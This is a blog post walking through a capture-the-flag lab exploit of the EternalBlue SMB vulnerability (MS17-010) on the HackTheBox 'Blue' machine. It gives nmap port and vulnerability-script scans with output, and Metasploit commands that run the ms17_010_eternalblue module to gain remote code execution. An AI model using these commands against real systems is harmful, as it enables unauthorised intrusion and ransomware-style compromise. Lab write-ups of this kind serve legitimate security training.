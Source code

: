 ```yaml
---
layout: post
title:  "How to Hack Windows with EternalBlue"
description: "Using the NSA's EternalBlue exploit"
date:   2019-04-10
image:  EternalBlue.jpg
tags:   [Hacking Windows, Hacking from 0, Metasploit Framework]
---
```


Hello Hackers!!   
On April 8 of 2017, the group The Shadow Brokers after entering the systems of the NSA, to expose in their Github the tools they found.   

Within the filtered tools, there is an exploit (EternalBlue) that allows exploiting a vulnerability in the SMB protocol version 1, and of this way can execute Remote Code (RCE) on the victim machine gaining access to the system.  

  - Microsoft Bulletin: [MS17-010(Critical)](https://www.microsoft.com/en-us/msrc?rtc=1)  
  - Common Vulnerabilities and Exposures: [CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)  

**¿WHAT EFFECT HAVE THIS VULNERABILITY?**  
This vulnerability was used to propagate Ransomware Wanna Cry, which encrypted data from companies, and medical centers. To date, there are many variants of Ransomeware.  

## Hacking [Blue](https://www.hackthebox.eu/home/machines/profile/51)
Today we will learn how to exploit this vulnerability using Metasploit, for this demonstration an intrusion test will be performed towards the [Blue](https://www.hackthebox.eu/home/machines/profile/51) machine of the HackTheBox platform.

### Network Enumeration
Let’s start with a quick NMAP scan to discover open ports.  

{% highlight shell %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3673]
╰─[:)] # nmap -p- -sV -T4 -oN Blue.nmap 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 08:54 -05
Nmap scan report for 10.10.10.40
Host is up (0.39s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
{% endhighlight %}  

Apparently, the team is running the SMB service with port 445.  
We will continue listing this service, for this we will use nmap scripts specifically for the SMB service.  
SMB, is a network protocol that allows files, printers and others services to be shared between nodes of a network of computers that use the Microsoft Windows operating system.    
[Full Article](https://en.wikipedia.org/wiki/Server_Message_Block)

### Scanning vulnerabilities using Nmap scripts for an audit  
Nmap is highly recognized in the world of Informatic security for its functionality of scanning networks, ports and services. However, the tool has been improving over the years, offering more and more possibilities that are very interesting. Currently incorporates the use of scripts to check some of the most known vulnerabilities, Which are classified in:

  - Auth: Run all your scripts available for authentication
  - Default: Executes the default basic scripts of the tool
  - Discovery: Retrieve information from the target or victim
  - External: Script to use external resources
  - Intrusive: Uses scripts that are considered intrusive to the victim or target
  - Malware: Check for malicious code connections or backdoors (backdoors)
  - Safe: Executes the scripts not intrusive
  - Vuln: Discover the most known vulnerabilities
  - All: Runs absolutely all scripts with NSE extension available

To perform a search of the scripts related to SMB and use them with Nmap, we do the following: 

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # ls /usr/share/nmap/scripts/ | grep "smb-vuln"
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
{% endhighlight %}  


Let's try all the previous scripts for port 445 of the SMB service.

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script=smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:24 -05
Nmap scan report for 10.10.10.40
Host is up (0.69s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
{% endhighlight %}  

Another way to evaluate the above is using the scripts of the category **vuln.**

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script vuln -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:22 -05
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.40
Host is up (0.20s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
{% endhighlight %}  


With the results of the previous scans, we were able to identify the following:

  - OS: Windows 7
  - Computer name: HARIS-PC
  - VULNERABLE smb-vuln-ms17-010

After identifying that our machine is vulnerable to EternalBlue, we are going to use a metasploit module that allows us to exploit this vulnerability.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # msfconsole
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40    <--> IP Victima
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
{% endhighlight %}  

<script id="asciicast-239838" src="https://asciinema.org/a/239838.js" async></script>

In this way we can completely commit a computer with the Windows operating system, thanks to the exposed vulnerability.  
